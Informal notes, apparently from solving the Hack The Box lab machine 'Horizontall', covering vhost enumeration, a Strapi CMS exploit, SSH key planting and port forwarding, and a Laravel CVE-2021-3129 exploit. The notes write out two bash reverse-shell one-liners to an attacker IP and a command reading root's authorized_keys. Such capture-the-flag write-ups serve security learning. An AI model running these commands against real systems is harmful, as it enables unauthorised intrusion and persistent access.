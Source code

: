 22/tcp open  ssh
80/tcp open  http

http://horizontall.htb

tried directoy brute forcing didnt find anything lets move on to dns


gobuster vhost -u horizontall.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
Found: api-prod.horizontall.htb (Status: 200) [Size: 413]



 curl -v http://horizontall.htb/js/app.c68eb462.js 
{getReviews:function(){var t=this;r.a.get("http://api-prod.horizontall.htb/reviews") we can see the other subdomain here. 

found version number 
Strapi CMS 3.0.0-beta.17.4
/admin/init


run exploit Found using searchsploit 
then past rev shell.
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.27/31337 0>&1'

netstat -ant found 8000, 1337, 

checkout 22-SSH
cd ~/
	mkdir .ssh
		echo "ssh-rsa AAAA...= bob@kali" > authorized_keys

chmod 600 id_rsa
ssh -i id_rsa -L 8000:127.0.0.1:8000 strapi@horizontall.htb -N -v

now we can access that page on our machine. 


CVE-2021-3129_exploit
https://github.com/nth347/CVE-2021-3129_exploit

./exploit.py http://localhost:8000 Monolog/RCE1 'which nc && whoami && id && cat /root/.ssh/authorized_keys && /bin/bash -c "sh -i >& /dev/tcp/10.10.14.27/9080 0>&1"'

start another nc listener on port 9080 boom.
